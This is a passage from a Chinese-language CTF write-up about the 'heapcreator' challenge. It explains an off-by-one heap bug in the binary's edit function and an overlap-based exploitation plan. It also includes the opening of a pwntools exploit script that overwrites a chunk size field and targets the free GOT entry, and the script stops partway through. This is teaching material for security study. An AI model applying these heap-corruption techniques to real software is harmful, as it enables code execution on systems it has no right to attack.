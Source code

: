 1. 創建堆，根據用戶輸入的長度，申請對應內存空間，並利用 read 讀取指定長度內容。這裏長度沒有進行檢測，當長度爲負數時，會出現任意長度堆溢出的漏洞。當然，前提是可以進行 malloc。此外，這裏讀取之後並沒有設置 NULL。
2. 編輯堆，根據指定的索引以及之前存儲的堆的大小讀取指定內容，但是這裏讀入的長度會比之前大 1，所以會**存在 off by one 的漏洞**。
3. 展示堆，輸出指定索引堆的大小以及內容。
4. 刪除堆，刪除指定堆，並且將對應指針設置爲了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆蓋下一個chunk 的 size 字段，從而構造僞造的 chunk 大小。
2. 申請僞造的 chunk 大小，從而產生 chunk overlap，進而修改關鍵指針。

更加具體的還是直接看腳本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
```